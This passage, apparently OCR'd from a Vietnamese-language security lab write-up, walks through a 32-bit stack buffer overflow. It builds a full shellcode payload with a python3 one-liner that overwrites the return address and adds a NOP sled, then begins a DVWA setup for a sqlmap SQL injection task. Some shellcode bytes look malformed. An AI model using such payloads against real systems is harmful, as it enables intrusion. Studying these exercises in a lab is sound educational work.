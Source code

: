 ```nasm -f elf32 shellcode.asm -o shellcode.o```

**Code:**

Lệnh hiện tại là ```ret```, đang cố gắng trả về từ hàm ```main```, nhưng vì stack bị lỗi, chương trình không thể tiếp tục và dẫn đến lỗi truy cập bộ nhớ.

**2.Tạo payload và tấn công:** Bạn có thể sử dụng một script Python để chèn shellcode vào payload và thực hiện tấn công:

Chuyển đổi shellcode thành chuỗi byte
**Sử dụng objdump để chuyển đổi shellcode thành chuỗi byte:**

```objdump -d shellcode | grep '[0-9a-f]:' | awk '{print $2}' | tr '\n' ' ' | sed 's/ //g' | sed 's/\(..\)/\\x\1/g'```

![image](https://github.com/user-attachments/assets/075f2860-6167-41cd-906d-f5b6326625b9)

**Hãy sử dụng lệnh sau để tạo payload:**

![image](https://github.com/user-attachments/assets/3f5b1cb0-3999-4b1e-aab5-37f3a984bcc3)

```python3 -c 'import sys; sys.stdout.buffer.write(b"A"*16 + b"\xd5\x84\x04\x08" + b"\x90"*100 + b"\x31\xc0\x31\x51\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")' > payload```

```sys.stdout.buffer.write(...):``` Sử dụng sys.stdout.buffer.write() để ghi byte trực tiếp vào stdout mà không gặp vấn đề với mã hóa.

```b"...":``` Dùng tiền tố b để chỉ định rằng chuỗi này là một chuỗi byte, giúp Python biết rằng bạn đang làm việc với dữ liệu nhị phân.

```"A"*16:``` Ghi đè buffer với 16 ký tự "A".

```"\xd5\x84\x04\x08":``` Đây là địa chỉ EIP (0x80484d5) được chuyển đổi từ little-endian.

```"\x90"*100:``` NOP sled để giúp shellcode chạy dễ dàng hơn.

```"\x31\xc0\x31\x51\x68\x2f\x2f\x73\x68\x68\x2f\x65\x74\x63\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80":```



**Conclusion**:  Đây là ví dụ điển hình của buffer overflow, khi chuỗi ký tự ```'AAAA'``` ghi đè lên các thanh ghi và bộ nhớ quan trọng, dẫn đến chương trình bị lỗi truy cập bộ nhớ (Segmentation Fault).




# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases

**Answer 1**:

1.Pull the DVWA Docker image

```docker pull vulnerables/web-dvwa```

```docker run -d -p 80:80 vulnerables/web-dvwa```

![image](https://github.com/user-attachments/assets/da3d5c1c-ee1c-40e5-a044-d565150f6a40)


2.Access DVWA Open a web browser and go to: http://localhost Log in with the default credentials:
Username: ```admin```
```